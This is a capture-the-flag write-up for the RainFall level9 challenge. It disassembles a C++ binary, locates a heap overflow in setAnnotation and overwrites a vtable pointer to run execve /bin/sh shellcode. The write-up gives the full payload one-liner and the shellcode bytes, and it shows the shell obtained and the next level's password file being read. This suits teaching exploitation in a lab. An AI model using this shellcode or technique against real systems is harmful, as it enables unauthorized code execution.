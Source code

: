 # Level 9

## What we have
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```


## Testing the program

```bash
$ ./level9 
$ ./level9 hello
$ ./level9 bye bye
$ ./level9 214
```

## Learning more 


```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.
```


Okay there are a few new things that are intriguing, that we managed to understood after a few research : 
```plaintext
   • _Znwj --> Mangled name for the 'new' operator in C++. 
   • _ZN1NC2Ei is also a mangled name, which gives : 
      • _Z → start of the mangle.  
      • N1N → class N
      • C2 → constructor
      • i → takes an int as an argument
   • _ZN1N13setAnnotationEPc --> Call to a member function of the class
      • Class N
      • Method setAnnotation
      • Parameter char* (Pc)
```

```plaintext
💡 Name mangling is used in C++ to make each function name unique by encoding information like parameter types and class scopes, allowing the linker to correctly identify overloaded functions. It's essential because C++ supports features like function overloading. 
```

If we use the c++filte we can unmangled the c++ functions

```bash 
c++filt _Znwj                            
operator new(unsigned int)
```

This is the part that is interesting for us :

```bash
mov eax, [esp+0x10]   ; EAX = ptr_B
mov eax, [eax]        ; EAX = *(ptr_B) → vtable pointer
mov edx, [eax]        ; EDX = *(vtable) → virtual method ptr
call edx              ; Appel indirect
```

What is stored at [esp + 0x10] is taken and put into EAX, therefore EAX holds B address (a pointer to an object).

On the second step we read what is in EAX and put it into EAX. EAX holds B address, a pointer to the start of an object with virtual methods, therefore it points to a vtable. 
So EAX = vtable of B

On the third step we read the content of EAX (now the vtable) and store it into EDX. So EDX now has the virtual method to be called. 

So schematise here is what will happen : 

```plaintext
[esp+0x10]              || 0x804a060 (adresse de B, pointer to an object)
*ptrB = ptrB (adresse)  || 0x804a060    → 0x804a100 (pointeur vtable)         
*ptrB= vtable           || 0x804a100    → 0xdeadbeef (adresse fonction virtuelle)              
``` 

So our goal is going to make the vtable address point towards a shellcode. 

## Getting acces to the pass

Our goal : 
1. Overflow of the memcpy used in setAnnotation 
2. Overwrite the vtable of the B object --> make it point to a shellcode  



```bash 
(gdb) run "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Starting program: /home/user/level9/level9 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441	1094083649
```

So our offet is : 
0x41366441 --> 108

```bash 
(gdb) b *main+136                                    // Just after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // address of the a object where annotation start
```
So we will inject our shellcode at this address. 

## Making the payload

[esp+0x10] → pointer to 0x804a00c --> \x10\xa0\x04\x08
0x804a00c → pointer to 0x804a010 (0x804a00c + 4) (shellcode) --> \x0c\xa0\x04\x08
0x804a010 → our shellcode

```plaintext
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

```

So we have
```bash
$ python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

```bash
level9@RainFall:~$ ./level9 $( python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```